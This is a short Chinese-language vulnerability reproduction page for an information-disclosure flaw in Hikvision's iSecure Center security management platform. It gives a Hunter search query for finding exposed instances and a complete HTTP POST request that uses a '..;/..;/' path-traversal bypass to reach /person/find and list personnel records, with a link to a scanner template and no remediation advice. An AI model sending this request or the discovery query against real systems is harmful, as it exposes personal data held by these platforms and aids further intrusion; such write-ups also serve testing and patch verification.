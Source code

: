 # 海康威视iSecure Center综合安防管理平台find信息泄漏漏洞

# 一、漏洞简介
HIKVISION 综合安防管理平台存在信息泄漏漏洞，攻击者通过漏洞可以获取环境find等敏感信息进一步攻击。

# 二、影响版本
+ HIKVISION 综合安防管理平台

# 三、<font style="color:rgb(0, 0, 0);">资产测绘</font>
**hunter查询语法：**

`app.name=="Hikvision 海康威视 iSecure Center"`

![1691858054561-aa88559b-46e0-4837-ae4c-6f3e9e3982c5.png](./img/XS4nHgxFeZcZ-7E8/1691858054561-aa88559b-46e0-4837-ae4c-6f3e9e3982c5-166014.png)

+ 登录页面

![1691858046745-db2cadc6-9bde-4037-952f-2faf2537b85f.png](./img/XS4nHgxFeZcZ-7E8/1691858046745-db2cadc6-9bde-4037-952f-2faf2537b85f-968849.png)

# 四、漏洞复现
```java
POST /isupm/api/api/..;/..;/person/find HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Content-Length: 95
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-Type: application/json;charset=utf-8
Accept-Encoding: gzip, deflate

{"organizationId":"root000000","pageSize":100,"pageNo":1,"name":"","casecadeSubOrganization":1}
```

![1711371978631-07879775-bcdf-4673-853d-c0e370b7119d.png](./img/XS4nHgxFeZcZ-7E8/1711371978631-07879775-bcdf-4673-853d-c0e370b7119d-882927.png)

[hikvision-find-info.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/29512878/1717211077763-07464109-609f-4f5b-bd65-72b7a7d05fe6.yaml)



> 更新: 2024-06-01 11:04:37  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/vzdf0l0dggn48gti>